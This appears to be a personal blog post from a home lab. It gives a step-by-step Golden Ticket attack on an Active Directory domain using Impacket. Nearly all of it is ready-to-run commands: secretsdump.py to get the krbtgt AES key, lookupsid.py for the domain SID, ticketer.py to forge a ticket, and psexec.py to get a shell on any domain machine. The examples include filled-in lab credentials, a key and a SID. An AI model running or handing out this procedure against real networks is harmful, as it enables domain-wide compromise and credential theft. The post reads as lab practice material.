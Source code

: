```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

<details>
<summary>
  Use secretsdump.py to obtain the aes256 key for the krbtgt account
</summary> 
<br>
  
    secretsdump.py \<domain\>\/\<user\>\:\<password\> \<dc\-ip\>
<br>

    secretsdump.py home.local\/TaMBSZZkfd\:Password11@10.0.2.250
    
</details>

<br>
<details>
<summary>
  Use lookupsid.py to find the domain SID
</summary> 
  <br>
  
    lookupsid.py \<domain\>\/\<user\>\:\<password\> \<dc\-ip\>
<br>
  
    lookupsid.py home.local\/TaMBSZZkfd\:\'\?\^kigXF\?oG\,y\{o\=\'@10.0.2.250
</details>

<br>
<details>
<summary>
  Use ticketer.py to create TGT
</summary>
  <br>
  
    ticketer.py \-aes \<aes\-256\> \-domain\-sid \<SID\> \-domain \<domain\> \-user\-id \<500\> username
<br>
  
    ticketer.py \-aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 \-domain\-sid S\-1\-5\-21\-536825828\-3248286720\-2276939788 \-domain home.local \-user\-id 500 administrator
</details>

<br>
<details>
<summary>
  Export KRB5CCNAME to created ticket location
</summary>
  <br>
  
    export KRB5CCNAME\=\/home\/kali\/Documents\/administrator.ccache
</details>

<br>
<details>
<summary>
  Use psexec to obtain a shell on any machine in the domain
</summary>
  <br>
  
    psexec.py \<domain\>\/\<user\>@\<hostname\>.\<fqdn\> \-no\-pass \-k
<br>
  
    psexec.py home.local\/administrator@TargetPC.home.local \-no\-pass \-k
</details>
